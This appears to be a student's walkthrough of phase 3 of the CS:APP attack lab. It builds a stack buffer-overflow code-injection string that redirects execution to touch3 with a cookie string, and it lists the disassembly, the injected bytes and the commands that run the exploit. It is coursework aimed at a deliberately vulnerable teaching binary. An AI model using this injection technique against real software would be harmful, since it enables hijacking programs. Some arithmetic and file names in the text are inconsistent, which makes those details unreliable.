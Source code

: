# Phase 3

Phase 3 is kinda similar to phase two except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing the cookie after touch3.

So let's pass the address for the cookie to register $rdi

The total bytes before the cookie are ```buffer + 8 bytes for return address of rsp + 8 bytes for touch3 0x18 + 8 + 8 = 28 ``` (40 decimnal)

Locate the ```touch3``` func in the ```rtarget_dump.s``` file
```assembly
0000000000401a56 <touch3>:
  401a56:       53                      push   %rbx
  401a57:       48 89 fb                mov    %rdi,%rbx
  401a5a:       c7 05 b8 3a 20 00 03    movl   $0x3,0x203ab8(%rip)        # 60551c <vlevel>
  401a61:       00 00 00 
  401a64:       48 89 fe                mov    %rdi,%rsi
  401a67:       8b 3d b7 3a 20 00       mov    0x203ab7(%rip),%edi        # 605524 <cookie>
  401a6d:       e8 33 ff ff ff          callq  4019a5 <hexmatch>
  401a72:       85 c0                   test   %eax,%eax
  401a74:       74 23                   je     401a99 <touch3+0x43>
  401a76:       48 89 da                mov    %rbx,%rdx
  401a79:       be 20 35 40 00          mov    $0x403520,%esi
  401a7e:       bf 01 00 00 00          mov    $0x1,%edi
  401a83:       b8 00 00 00 00          mov    $0x0,%eax
  401a88:       e8 73 f3 ff ff          callq  400e00 <__printf_chk@plt>
  401a8d:       bf 03 00 00 00          mov    $0x3,%edi
  401a92:       e8 5b 04 00 00          callq  401ef2 <validate>
  401a97:       eb 21                   jmp    401aba <touch3+0x64>
  401a99:       48 89 da                mov    %rbx,%rdx
  401a9c:       be 48 35 40 00          mov    $0x403548,%esi
  401aa1:       bf 01 00 00 00          mov    $0x1,%edi
  401aa6:       b8 00 00 00 00          mov    $0x0,%eax
  401aab:       e8 50 f3 ff ff          callq  400e00 <__printf_chk@plt>
  401ab0:       bf 03 00 00 00          mov    $0x3,%edi
  401ab5:       e8 14 05 00 00          callq  401fce <fail>
  401aba:       bf 00 00 00 00          mov    $0x0,%edi
  401abf:       e8 8c f3 ff ff          callq  400e50 <exit@plt>

```

Grab the address for rsp from phase 2: ``0x55617e98`` Add ```0x28``` ```0x55617e98 + 0x28 = 0x55617EC0``` Now you need this assembly code, same steps generating the byte representation

Create the file ```phase3.s```.

```assembly
    movq $0x55617EC0,%rdi /* %rsp + 0x18 */
    retq
```
Now you need the byte representation of the code you wrote above, compile it with gcc then dissasemble it.

```ssh
gcc -c phase3.s
objdump -d phase3.o  > phase3.d 
```
Now open the file phase2.d and you will get something like below

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 c0 7e 61 55    mov    $0x55617ec0,%rdi
   7:   c3                      retq
```
My cookie ``0x3451d86d``` => ```33 34 35 31 64 38 36 64```

Now, grab the bytes from the above code and start constructing your exploit string. Create a new file named ``phase3.txt``` and here is what mine looks like:

```
48 c7 c7 c0 7e 61 55 c3 /*rsp + 28 the address where the cookie is present*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /*padding*/
98 7e 61 55 00 00 00 00 /* return address ($rsp)*/
56 1a 40 00 00 00 00 00 /* touch3 address -- get this from the rtarget dump file */
33 34 35 31 64 38 36 64 /* cookie string*/
```
If you look at the last row above, the cookie is in hex format, so you need to take your cookie and convert in to text format. Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie without '0x' and it should give you the text format or you could look up ascii equivalent on your machine

Last step is to generate the raw eploit string using the hex2raw program.

```./hex2raw < phase3.txt > raw-phase3.txt```

Finally, you run the raw file

```./ctarget < raw-phase3.txt```

Response looks like below

```ssh

```
